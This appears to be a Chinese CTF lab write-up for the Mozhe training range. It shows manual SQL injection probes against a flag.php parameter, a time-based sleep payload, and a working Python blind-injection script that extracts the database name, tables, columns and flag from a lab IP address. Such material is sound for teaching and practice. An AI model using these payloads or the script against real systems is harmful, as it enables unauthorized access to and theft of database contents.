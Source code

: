 日常检测注入类型
http://219.153.49.228:40947/flag.php?type=1  // 帮墨者找到
http://219.153.49.228:40947/flag.php?type=1'  // 墨者的任性网页!
http://219.153.49.228:40947/flag.php?type=1' and 1 = 2 // 帮墨者找到   //猜测是类似于错误的页面
http://219.153.49.228:40947/flag.php?type=1 and 1 = 1 --+ // 墨者的任性网页!
http://219.153.49.228:40947/flag.php?type=1 and ascii(substr(database(),1,1)) > 500 --+ // 墨者的任性网页!  没有数据 名称是0  有数据 名称是id值

可以用基于时间的盲注，单没必要
http://219.153.49.228:41969/flag.php?type=1 and if(ascii(substr(database(),0,1)) = 32,sleep(500),1) --+

直接根据名称显示是否是0来进行盲注
Python 代码
import requests
import re
import os
import urllib.parse

all = 32
#发送payload
def sendPayload(payload):
    print(payload)
    r = requests.get(payload)
    return r.text

#拼装payload-时间盲注
def buildPayload(payload):
    #http://219.153.49.228:41160/flag.php?type=1 and ascii(substr(database(),{index1},1)) > {index2}
    resultChr = ''
    for index1 in range(1,100):
        payload1 = payload.replace('{index1}',str(index1))
        for index2 in range(32,127):
            result = sendPayload(payload1.replace('{index2}',str(index2)))
            if not rex(result,'0'):
                resultChr+=chr(index2)
                break
            elif index2 == 126:
                return resultChr
    return resultChr
                
            
def rex(text,restr):
    result = re.findall(restr,text)
    if len(result) == 1:
        return 1
    else:
        return 0


url1='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr(database(),{index1},1)) = {index2} --+' #pentesterlab
url2='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()),{index1},1)) = {index2} --+' # comment,flag,goods,user
url3='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = "flag"),{index1},1)) = {index2} --+' # id,flag
url4='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(flag) from flag),{index1},1)) = {index2} --+' # id,flag

result = buildPayload(url4)
print(result)



